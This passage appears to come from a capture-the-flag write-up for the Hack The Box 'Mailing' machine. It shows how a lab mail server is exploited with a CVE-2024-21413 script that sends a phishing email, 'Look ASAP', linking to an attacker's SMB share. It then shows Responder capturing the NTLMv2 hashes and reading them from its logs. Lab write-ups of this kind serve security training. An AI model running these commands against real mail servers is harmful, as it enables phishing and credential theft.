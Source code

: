 The mail from image is `maya@mailing.htb`. Let´s use it as Recipient and check if exists:

``` bash
python3 CVE-2024-21413.py --server 10.10.11.14 --port 587 --username administrator@mailing.htb --password 'homenetworkingadministrator' --sender administrator@mailing.htb --recipient maya@mailing.htb --url "\\10.10.14.2\smbFolder\test" --subject 'Look ASAP'
```

We need the responder active to obtain the hashes:

```bash
sudo responder -I tun0
```

![](screenshots/responder.png)

In my case, the hash had already been captured previously, so I retrieved it from the Responder logs:

```bash
cat /usr/share/responder/logs/SMB-NTLMv2-SSP-10.10.11.14.txt
```

